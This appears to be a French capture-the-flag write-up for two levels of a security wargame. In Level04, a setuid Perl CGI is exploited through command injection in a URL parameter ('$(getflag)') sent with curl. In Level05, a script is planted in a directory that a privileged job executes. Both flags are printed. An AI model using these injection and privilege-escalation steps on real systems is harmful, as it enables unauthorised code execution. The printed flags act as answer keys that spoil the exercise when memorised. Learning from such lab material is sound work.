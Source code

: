 ## Level04

```
$> ls -la
[...]
-rwsr-sr-x  1 flag04 level04 XX XX level04.pl
[...]
```

On a un fichier perl executable qui est owned par flag04 et qui utilise `setuid()`. <br />
Le script est un CGI qui ecoute sur le port 4747.<br />
Il appelle un fonction qui prend en paramettre le paramettre `x` de l'url et l'`echo`.

```
$> curl localhost:4747/level04.pl?x=test
test
```

Le `echo` s'execute de cette maniere: `print ``echo $y 2>&1``;`<br />
Donc avec une simple injection de code on peut executer getflag

```
>$ curl 'localhost:4747?x=$(getflag)'
Check flag.Here is your token: ne2searoevaevoem4ov4ar8ap
```

### Flag: `ne2searoevaevoem4ov4ar8ap`

--- 

## Level05

Rien a la racine.

```
$> find / -user flag05
/usr/sbin/openarenaserver
/rofs/usr/sbin/openarenaserver
$> ls -l /usr/sbin/openarenaserver
-rwxr-x---+ 1 flag05 flag05 XX XX /usr/sbin/openarenaserver
```

C'est un script bash qui execute tout ce qui se trouve dans `/opt/openarenaserver` et qui le supprime. <br />
En essayant des truc on a remarque que le contenu de `/opt/openarenaserveur` se faisait supprimer de temps en temps, donc le "serveur" doit etre en route et executer `/usr/sbin/openarenaserver`
```
$> cat << EOF > /opt/openarenaserver/crack.sh
> #!/bin/bash
> 
> getflag | wall
> EOF
```

### Flag: viuaaale9huek52boumoomioc

---